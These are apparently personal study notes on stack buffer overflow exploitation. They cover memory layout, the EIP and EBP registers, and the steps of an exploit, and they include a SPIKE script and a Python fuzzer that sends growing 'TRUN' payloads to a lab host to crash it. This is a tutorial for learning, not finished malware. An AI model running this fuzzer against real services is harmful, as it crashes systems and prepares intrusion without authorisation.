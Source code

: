 #Bufferoverflow usually arises when we operate buffers on char type.

It consists of overflowing of stack memory or overflow of heap memory.

###### Anatomy of Memory:

[[Kernel]]          TOP    - 0xffff
___
==Stack==
___
[[Heap]]
___
Data 
___
Text           BOTTOM  - 0x0000

###### Anatomy of [[Stack]]:

ESP (Extended stack pointer) 
___
==Buffer Space== - *was the part of characters filled with buffer overflows*
___
EBP (Extended Base Pointer) 
___
EIP (Extended Instruction Pointer) / Return Address

**EBP** - used as a reference when accessing local variables and arguments of the function.
**ESP** - The stack pointer -- also referred to as the **extended stack pointer** (ESP) -- ensures that the program always adds data to the right location in the stack. The stack stores data from the top down, following a last in, first out (LIFO) data structure.

#References *# Running a Buffer Overflow Attack - Computerphile*
https://youtu.be/1S0aBV-Waeo 

###### Steps to conduct a Buffer overflow
* Spiking - vulnerable part of the program (parameter, variables)
* Fuzzing - sending bunch of characters to break the program.
* Finding the offset - An integer indicating the distance b/w beginning of the object and a given element or a point.
* Overwriting the EIP  - pointer address
* Finding Bad Characters - 
* Finding the right module
* Generating the shell code
* Root  

###### Spiking

Test with the commands whether the program is crashing or not. if it is crashing it is vuln to buffer overflow.

All kind of different character send to break the program is called spiking.

Attach the vulnerable exe file in the [[immunitydebugger]]

`generic_send_tcp`  is tool which uses the spike scripts to make the program crash.

```spk
s_readline();
s_string("STATS ");
s_string_variable("0");
```

###### Fuzzing 
```python
#!usr/bin/python
import sys,socket
from time import sleep

buffer="A"*100
while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
		#AF_INET = ipv4 && SOCK_STREAM = port
		s.connect(('192.168.23.2',9999))
		s.send(('TRUN /.:/'+buffer)) # /.:/ is a string literal that is being concatenated with the repeated character of A's
		s.close()
		sleep(1)
		buffer=buffer+"A"*100
	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer))
		sys.exit()
		
```